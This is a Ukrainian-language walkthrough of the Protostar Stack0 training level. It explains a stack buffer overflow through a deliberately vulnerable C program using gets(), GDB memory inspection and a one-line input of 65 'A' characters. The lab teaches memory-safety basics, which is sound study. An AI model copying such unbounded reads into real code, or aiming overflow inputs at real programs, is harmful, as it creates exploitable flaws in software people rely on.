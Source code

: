 # STACK0

Цей рівень представляє концепцію того, що доступ до пам’яті може бути за межами виділеної області, як розміщені змінні стека, і що зміна за межами виділеної пам’яті може змінити виконання програми.

Вихідний код Stack0:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
Перейдемо до каталогу де знаходиться Stack0:
```
cd /opt/protostar/bin
```
Запустимо програму всередині GDB. Для цього ми запускаємо таку команду.
```
gdb stack0
```
Подивившись на вихідний код, здається, що зупинити виконання безпосередньо перед запуском рядка 13 було б хорошою ідеєю. Щоб встановити точку розриву, ми введемо:
```
break 13
```
Тепер запустимо програму на виконання з вхідним рядком - AAAA

Дві наші змінні, модифікована і буферна, є локальними змінними, тому вони будуть розташовані в кадрі стека. Знайшовши розташування покажчика стека, ми можемо знайти ці змінні в пам’яті. Для цього ми введемо наступне
```
x/32x $esp
```
![image](https://user-images.githubusercontent.com/47494881/147463075-556d353e-8f3b-4253-af3d-73c8b63fe695.png)

Якщо уважніше поглянути на пам’ять, ми бачимо один фрагмент даних, який не схожий на інші — серію з 4 байтів, кожен із яких містить значення 41. Якби ми розглянули цю адресу як рядок, ми б побачили, що це є чотири "A", які ми ввели, коли вперше запускали програму.

![image](https://user-images.githubusercontent.com/47494881/147461367-7291b4c4-2caa-4ee8-8c1d-e2641e9a0740.png)

Щоб знайти розташування адреси змінної:
```
info address modified
x/x $esp + 92
```
![image](https://user-images.githubusercontent.com/47494881/147461612-c3df38fd-4599-4361-8790-95f8cb2b8292.png)

Щоб визначити, скільки символів нам знадобиться, використовуючи наступну команду
```
p 0xbffffcac - 0xbffffc6c
```
![image](https://user-images.githubusercontent.com/47494881/147461805-7bc8acda-406f-4c2a-803e-df9c4be28042.png)

Вихід $1 = 64 говорить нам, що між буфером і зміненим є 64 байти.

Однак, якщо використати описану вразливість функції gets() і передати рядок розміром більше 64 байти, то змінна modified буде перезаписана. Що нам і потрібно!

![image](https://user-images.githubusercontent.com/47494881/147462539-f2c4386a-d848-4e38-93e3-a539db3f5387.png)

Команда:

```
python -c "print('A' * 65)" | ./stack0
```
